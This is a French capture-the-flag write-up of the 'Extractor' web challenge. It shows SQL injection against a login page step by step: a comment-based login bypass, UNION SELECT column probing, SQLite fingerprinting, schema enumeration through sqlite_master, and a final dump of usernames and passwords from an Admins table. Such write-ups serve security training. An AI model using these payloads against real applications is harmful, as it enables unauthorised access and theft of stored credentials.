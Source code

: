 # Extractor

## Enoncé
We are under emergency. Enemy is ready with its nuclear weapon we need to activate our gaurds but chief who had password is dead. There is portal at URL below which holds key within super-user account, can you get the key and save us.

## Découverte
On arrive sur site bien dégueulasse avec deux fonctions principales : "register" et "login". Trois champs découlent de ces fonctions : "Username", "Password" et "Signature". On crée un utilisateur "test" avec pour password "test" et pour signature "123456". On tente alors au hasard une SQLi login bypass (`test';--`) par hasard et tient, ça fonctionne...

![](./images/extractor_1.png)

## Exploitation 
On est donc à peu près certain d'avoir affaire à une SQLi. Seulement, nous n'avons aucun user donné dont on doit exfiltrer le mot de passe. On tente donc une UNION BASED avec pour payload :

    test' UNION SELECT null;--

La page nous renvoie :
![](./images/extractor_2.png)

On tatonne donc en rajoutant des colonnes et on arrive finalement à un payload qui fonctionne, du moins qui ne retourne pas d'erreur :

    test' UNION SELECT null,null,null,null;--
    
C'est bien beau tout ça mais pour aller plus loin il va nous falloir des infos sur la version de la base de données utilisée. On s'aide donc tranquillement de PayloadAllTheThings (petite [cheatsheet](https://github.com/BA-Seven/Misc/blob/main/SQLi%20cheatsheet.md) résumé au passage). 

Le seul payload qui fonctionne est finalement :

    test' UNION SELECT null,null,null,sqlite_version();--

Ce qui nous confirme qu'on se trouve sur une base de données SQLite. On a donc plus qu'à suivre la méthodologie pour leak ce qu'on veut.

Pour leak la table :

    test' UNION SELECT null,null,null,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--
![](./images/extractor_3.png)    
Ensuite pour leak les colonnes de la table :

    test' UNION SELECT null,null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='Admins';--
![](./images/extractor_4.png)    
Enfin pour leak les données de la table (et flag le challenge) :

    test' UNION SELECT null,user,pass,content FROM 'Admins';--
    
![](./images/extractor_5.png)



*Write-up by BA-Seven (https://github.com/BA-Seven)*
